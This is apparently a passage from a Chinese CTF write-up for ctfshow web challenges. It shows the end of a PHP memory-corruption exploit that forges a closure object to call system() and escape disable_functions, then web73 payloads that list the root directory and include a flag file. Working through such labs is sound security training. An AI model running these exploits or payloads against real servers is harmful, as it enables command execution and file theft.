 ````

    if(!($elf = parse_elf($base))) {
        die("Couldn't parse ELF header");
    }

    if(!($basic_funcs = get_basic_funcs($base, $elf))) {
        die("Couldn't get basic_functions address");
    }

    if(!($zif_system = get_system($basic_funcs))) {
        die("Couldn't get zif_system address");
    }

    # fake closure object
    $fake_obj_offset = 0xd0;
    for($i = 0; $i < 0x110; $i += 8) {
        write($abc, $fake_obj_offset + $i, leak($closure_obj, $i));
    }

    # pwn
    write($abc, 0x20, $abc_addr + $fake_obj_offset);
    write($abc, 0xd0 + 0x38, 1, 4); # internal func type
    write($abc, 0xd0 + 0x68, $zif_system); # internal func handler

    ($helper->b)($cmd);
    exit();
}
exit();
```



https://www.m00nback.xyz/2020/02/17/ctfshow%E9%83%A8%E5%88%86%E9%A2%98%E7%9B%AEwriteup/

https://www.jb51.net/article/141767.htm

但是我打不出来。。。。。

## web73

```

Warning: error_reporting() has been disabled for security reasons in /var/www/html/index.php on line 14

Warning: ini_set() has been disabled for security reasons in /var/www/html/index.php on line 15

Warning: highlight_file() has been disabled for security reasons in /var/www/html/index.php on line 24
你要上天吗？ 
```

`c=var_export(scandir('/'));die();` 得到

```
array ( 0 => '.', 1 => '..', 2 => '.dockerenv', 3 => 'bin', 4 => 'dev', 5 => 'etc', 6 => 'flagc.txt', 7 => 'home', 8 => 'lib', 9 => 'media', 10 => 'mnt', 11 => 'opt', 12 => 'proc', 13 => 'root', 14 => 'run', 15 => 'sbin', 16 => 'srv', 17 => 'sys', 18 => 'tmp', 19 => 'usr', 20 => 'var', )
```

payload:

```
c=include('/flagc.txt');die();
````